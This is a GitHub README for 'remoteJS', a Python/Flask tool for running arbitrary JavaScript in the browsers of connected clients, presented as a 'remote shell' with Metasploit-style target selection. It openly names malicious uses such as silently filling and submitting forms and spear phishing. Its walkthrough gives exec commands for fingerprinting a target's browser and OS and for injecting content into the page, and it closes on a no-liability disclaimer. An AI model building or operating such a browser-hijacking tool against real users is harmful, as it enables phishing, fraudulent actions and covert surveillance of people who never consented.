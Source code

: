# remoteJS

## Spawn a remote shell in a client's browser.
This tool has the potential to be used for malicious use, such as inserting form controls, using autocomplete to fill them, and then submitting them, all without any user interaction. 

Furthermore spear phising attacks can be carried out by sending specific content to different people dynamically, including alerts and popups.

Please use responsibly, as I am not liable for any damage (including criminal charges) which may arise from use of this software.

## Requirements
To use remoteJS, you will need Python 3.
Additionally, you will need to install some dependencies:

```pip3 install -r requirements.txt```

## Usage
To startup the server and interpreter, enter the following:

```python3 remoteJS.py```

You should then see the following interpreter:
```
~/Projects/remoteJS >>> python3 remoteJS.py

        ____                       __           _______
       / __ \___  ____ ___  ____  / /____      / / ___/
      / /_/ / _ \/ __ `__ \/ __ \/ __/ _ \__  / /\__ \ 
     / _, _/  __/ / / / / / /_/ / /_/  __/ /_/ /___/ / 
    /_/ |_|\___/_/ /_/ /_/\____/\__/\___/\____//____/  
                                            By fputs    
    
 * Serving Flask app "remoteJS" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * WARNING: I am not liable for any damage (including criminal charges) which may arise from use of this software.
 * For more information see the LICENSE file included with this software.
 * Hosting on port 5000

(None)>
```

### Available Commands
You can view all available commands by running the `help` command:

```
(None)>help

Command       | Description                          | Syntax
--------------------------------------------------------------------------------
set           | Sets an environment variable.        | set <varname> <value>
show          | Shows an environment variable.       | show (varname|all)
show sessions | Shows all active sessions.           | show sessions
exit          | Shuts down the server.               | exit|quit
exec          | Run a script in the client's browser | exec <script>
```

### Viewing Connected Hosts
In order to execute a script in a client's browser, you must first select the client from the current sessions. To view sessions, run the `show sessions` command:

```
(None)>show sessions

Hostname             | TTL (sec)                 
--------------------------------------------------------------------------------
127.0.0.1            | 2                                                           
```

In this example, we can see that we have an active session open to `127.0.0.1`.

### Selecting a Host
Now we must select our host, so we set variables using the `set` command. Naming conventions follow Metasploit's names, so we must set the `RHOST` variable to define our target:

```
(None)>set RHOST 127.0.0.1
Assigned RHOST -> 127.0.0.1
(127.0.0.1)>
```

You can now see, that the target host appears within the cursor, to indicate that we will execute our scripts within that host's browser.

### Launching a Script
Currently remoteJS only supports manual typing of scripts via the commandline, however I will be adding modules to allow different scripts to be automatically loaded.

Let's send our target a friendly alert that will say 'Hello localhost!'. To do this, we will use the `exec` command, this allows us to run any Javascript we like:

```
(127.0.0.1)>exec alert('Hello localhost!')
127.0.0.1: Status=OK
```

This method will also provide a status and response.

## More Examples

### Getting Information
We can also use this tool to carry out some recon on our target, for instance, we can get information about their CPU, browser and OS, even if they prevent the browser from sharing this information in GET/POST requests. This is done by executing a simple script:

```
(127.0.0.1)>exec navigator.userAgent
127.0.0.1: Status=OK, Response=Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
```

Magic! We now know that the user is on a 64-bit Intel Linux box, running Firefox version 77.

### Modifying DOM
If you know anything about manipulating DOM with JS, then this will be no surprise, but we can dynamically modify the webpage on the fly. In this example, we insert a new subheading:

```
(127.0.0.1)>exec {document.getElementsByTagName("body")[0].innerHTML += "<h2>Where did that come from?</h2>"; true;}
127.0.0.1: Status=OK, Response=true
```

This adds a subheading containing the text `Where did that come from?`.

You may notice I've enclosed the statement in curly braces, with a `true` statement inserted at the end. This supresses the output of the command, as remoteJS uses the javascript `eval` command, and in this instance, it would return the entire document DOM, and that just doesn't look nice.


